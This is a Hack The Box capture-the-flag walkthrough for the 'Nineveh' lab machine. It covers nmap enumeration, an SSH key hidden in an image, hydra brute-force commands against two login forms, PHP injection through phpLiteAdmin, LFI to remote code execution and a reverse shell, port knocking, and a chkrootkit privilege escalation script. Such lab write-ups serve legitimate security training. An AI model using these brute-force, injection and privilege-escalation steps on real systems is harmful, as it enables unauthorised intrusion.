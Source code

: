 Started with nmap scan
```
PORT    STATE SERVICE  REASON         VERSION
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR/emailAddress=admin@nineveh.htb/organizationalUnitName=Support/localityName=Athens
| Issuer: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR/emailAddress=admin@nineveh.htb/organizationalUnitName=Support/localityName=Athens
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-07-01T15:03:30
| Not valid after:  2018-07-01T15:03:30
| MD5:   d182:94b8:0210:7992:bf01:e802:b26f:8639
| SHA-1: 2275:b03e:27bd:1226:fdaa:8b0f:6de9:84f0:113b:42c0
|_http-server-header: Apache/2.4.18 (Ubuntu)
```
Go to the website on port `80` its just a apache page saying it works going to the site with https and we get a picture running a scan on it 
```
/db/
/secure_notes/
```
The `/db/` is a `phpLiteAdmin` running version `1.9.3` found some exploits for this but we need to be authed to use them looking at `/secure_notes/` and its another folder with a picture running a gobuster scan did not find anything looking at the image running `binwalk nineveh.png` shows there is a `tar` archive in there so running `7z x nineveh.png` extracts to a folder called `secret` and there are a public and private key files its a ssh key and the `id_rsa` but we don't have ssh open so this don't get us much yet we can use hydra to try and crack the website since its just a password `hydra -l test -P rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In:F=Invalid Password" -s 443 -V -f` and we got the password of `password123` and we can login in now we have access to the sql database time for the exploit we can make a database called `hack.php` and then make a table and insert a txt filed with `<?php phpinfo()?>` but we don't have a way of getting to `hack.php` so time to run another gobuster scan on the `http` server 
```
/department/
```
and going to this we have a login page but we dont have a username testing this will tell us if we have a valid username so we have username enumeration now we can fuzz this or use caido 
```
admin
```
now we have a username we can try and bruteforce this site now also `hydra -l admin -P rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:F=Invalid Password" -V -f` and we have creds not for this `admin:1q2w3e4r5t` and after we login there is a notes and a notes pramater that is vulnerable to LFI `/ninevehNotes/../var/tmp/6.php&cmd=id` and we get `www-data` so now we have RCE we can do a reverse shell with this shell we just need to url encode the payload and we get a call back as `www-data` but a way better shell running linpeas shows us there is a port knocking program on here `knockd` now looking at `/etc/knockd.conf` we get the ports we need to hit to unlock SSH `571, 290, 911` and now SSH should be open `knock -v 10.10.10.43 571 290 911 -d 500` we can also ssh into the server from inside the rev shell `ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -i nineveh.priv amrois@localhost` from the linpeas scan from earlier we know `chrootkit` is on the host and looking at exploit DB there is a exploit for it if we make a file called `update` in the `tmp` folder and put this in there
```
#!/bin/bash
cat /root/root.txt > /dev/shm/root.txt
```
and then `chmod +x /tmp/update` and wait a couple minutes we will have the root flag  